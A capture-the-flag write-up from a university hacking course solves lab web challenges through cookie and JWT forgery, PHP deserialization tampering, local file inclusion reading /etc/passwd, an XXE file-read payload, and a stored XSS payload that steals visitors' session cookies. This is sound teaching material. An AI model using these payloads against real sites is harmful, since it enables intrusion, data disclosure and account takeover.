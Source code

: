 # Exercise 2 (Lecture 2)

Exercises using Haaukins for the Hacker space course in the spring semester 2024.

## Admin logon

**Challenge Description**: Menne company at menne.com is hiding things from all of its users. Can you login as admin and find out what they want to keep secret? It doesn’t seem to check anyone’s password.

### Challenge Solution
This was a simple cookie manipulation challenge, which was solved by chaning `{admin: False}` to `{admin: True}` in the cookie and reloading the site.

## JWT

**Challenge Description**: Visit jwt.com. What is that cookie after you have logged in? Have you ever heard of JWT?

### Challenge Solution
This challenge supplied a JWT, which had a simple secret set. In order to crack the secret, John the ripper was used. The secret was `challenge`. Using the JWT.com jwt parser to change the user to admin and resigning the cookie with the correct secret, this challenge was solved.

## Serilizator

**Challenge Description**: Visit serializator.com. Login as Admin to reach the goal!

### Challenge Solution

In this challenge we are presented with a login screen. No matter which username and password is supplied, the website accepts it and logs us in with the message `{username} you might not be ale to see the content! You should log in with a different account! Log in`. Viewing the storage tab of firefox (inspect) it is seen a cookie is set for the user. It looks to be encoded as URL encoding and Base64. Using cyberchef to decode this it provides: `O:4:"User":2:{s:8:"username";s:3:"hej";s:7:"isAdmin";b:0;}` Using cyberchef the cookie is changed to `"isAdmin":1` like this: `O:4:"User":2:{s:8:"username";s:3:"hej";s:7:"isAdmin";b:1;}` and then encoded as base64 and URL encoding last. Supplying this cookie to the browser and relading gives us the flag!: HKN{zU-zLN-jMbCL}.

## Challenge: Exploracaõ

**Challenge Description**:  Mom, can we have geoguessr? No we have geoguessr at home: i3geo

### Challenge solution

Seemingly no exploit on the loging page or by manipulating the cookies. However a Local file inclusion (LFI). Where the attacker can print out arbitrary files on the filesystem using the URL. `http://exploracao.hkn/i3geo/exemplos/codemirror.php?&pagina=../../../../../../../../../../../../../../../../../etc/passwd` this URL will print the passwd file of the server. The page `http://exploracao.hkn/i3geo/flag.php` shows that the flag is only visible to admin user, so we either need to find the flag file or find the admin user credentials.

PHP code is evaluated and sends a rendered HTML file to the user if we try to get it through the URL with LFI. Therefore we are able to craft a URL `http://exploracao.hkn/i3geo/exemplos/codemirror.php?&pagina=php://filter/convert.base64-encode/resource=../flag.php` which uses PHP filters to encode the file to base64 before returning the output to the browser. This way the PHP code is not excecuted. The very interesting part is the filters applied: `php://filter/convert.base64-encode/resource=../flag.php`. Pasting the result into cyberchef gives the original output:

```php
<?php
define("ONDEI3GEO", ".");
include "ms_configura.php";
include "./init/head.php";
?>

<body style="padding-top: 90px;" id="topo">
    <nav class="navbar navbar-default navbar-fixed-top">
        <div class="container-fluid">
            <div class="navbar-header">
                <button type="button" title="icon-bar" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                    <span class="sr-only"></span> <span class="icon-bar"></span> <span class="icon-bar"></span> <span class="icon-bar"></span>
                </button>
                <a class="navbar-brand" onclick="$('.cartao').fadeIn(600);" href="./init/index.php">
                    <span class="material-icons md-18">home</span> <?php echo $mensagemInicia;?>
                </a>
            </div>
            <div id="navbar" class="navbar-collapse collapse navbar-responsive-collapse">

            </div>
        </div>
    </nav>

    <!-- FLAG -->
    <div class="container-fluid row center-block;" style="width:100%" id="conteudoPrincipal" tabindex="-1">
        <div class="row center-block text-center" style="max-width:1000px">
            <?php
            if ($_SESSION["usuario"] === "administrador") {
                echo "<h2>DDC{Static_Flag_redacted}</h2>";
            } else {
                echo "<h2>Flag is only visible to admin user</h2>";
            }
            ?>
        </div>
    </div>

    <div tabindex="-1" class="navbar-fixed-bottom container-fluid" style="background-color: #fff; margin-top: 10px; padding-top: 10px;">
        <div class="row text-center">
            <div class="col-lg-12 center-block">
                <a tabindex="-1" rel="license" href="http://creativecommons.org/licenses/GPL/2.0/legalcode.pt" target="_blank">
                    <img alt="Licen&ccedil;a Creative Commons" style="border-width: 0" src="https://i.creativecommons.org/l/GPL/2.0/88x62.png" />
                </a>
                <br />O i3Geo est&aacute; licenciado com uma Licen&ccedil;a
                <a tabindex="-1" rel="license" href="http://creativecommons.org/licenses/GPL/2.0/legalcode.pt" target="_blank">Creative Commons - Licen&ccedil;a P&uacute;blica
                    Geral GNU (&#34;GNU General Public License&#34;)</a>
            </div>
        </div>
    </div>
</body>
</html>
```

Giving us the flag in the if statement. Original flag redacted, as it is static.

## External entities

**Challenge Description**: If a JSON string looks this `{“login”:{“user”:“username”,“pass”:“password”}}`… Then what would the same string look like in XML? Use the XML format of the string as a request to a webserver at external.com. Manipulate it to print the flag.txt file located in the /home/ directory.

### Challenge Solution

This challenge is about XML External Entity injection. This kind of attack happens when an attacker has control over the XML which is parsed by a webserver, XML entities are variables in XML. The service on `external.com` uses a specific format of XML for logging in a user. The format is the XML equivalent of the JSON from the Challenge description: `<login><user>username</user><pass>password</pass></login>`. In reality this webserver just informs the user which username has been parsed in the `<user>` tag of the xml. This is seen in the respone: 

```html
<pre>You have logged in to the server as username</pre>
```

This means that we can use XML entities to write out the contents of the file system through this username attribute. The payload looks like this: 

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'file:///home/flag.txt'> ]>
<login>
<user>hej&xxe;</user>
<pass>pass</pass>
</login>
```

Here the Document type definition is used to load the contents of the flag.txt into the `xxe` variable, and then this variable is supplied to the user tag, where it will be printed to the browser. The response will be:

```html
<pre>You have logged in to the server as hej
HKN{R2-Njh-o2JCW}
</pre>
```

And there the flag is located!

**Note:** Using curl, it is possible to parse a file as the data by using `-d @file-path` as a param.

## Sharing is caring

**Challenge Description**: Across the site `https://dogshare.com`, alot of delicious hotdogs has been shared. Maybe you can make the users visiting the site share a little extra?

### Challenge Solution

The website hosted on `https://dogshare.com` is a blog where users can share pictures of hotdogs. No user is supplied, yet even without one, it is possible to comment on the posts. This might be an XSS challenge. We are able to achieve stored XSS by posting a comment with the payload: `<img src='#' onerror=alert(1) />`. It seems like some tags are sanitized and others are not, like the image tag.

After achieving XSS we need to modify the payload of the stored XSS, to post the cookie of the other users. This is done by changing the code in the onerror part of the img tag to the following:

`fetch("/comments", {method: "POST", headers: {'Content-Type': 'application/x-www-form-urlencoded'},body: "did=1&comment=" + btoa(document.cookie)})`

Here the fetch JS function is used to post a comment to the dogshare website, including the document.cookie (a users cookie) encoded as base64. The `did=1` part of the form, is specifying which post to comment on.

**Note**: Payload needs to be URL encoded in order to parse correctly.

```urlencode
did=1&comment=test+<img+src%3d'%23'+onerror%3d"fetch('/comments',+{method%3a+'POST',+headers%3a+{'Content-Type'%3a+'application/x-www-form-urlencoded'},+body%3a+'did%3d1%26comment%3d'+%2b+btoa(document.cookie)})"+/>
```

When the comment is registered and other user visit the a comment is posted with their session cookie: `c2Vzc2lvbj03YjNmMjNmNzVhOGU1ZTdhYTU4YjgwOTJmMjVhOTFkNQ` encoded as base64. The cookie is decoded and parsed into the browser as: `session=7b3f23f75a8e5e7aa58b8092f25a91d5`. When reloading the site, we are logged in as Kristy.

Found flag!: HKN{MP-3G-Oxo4kC}
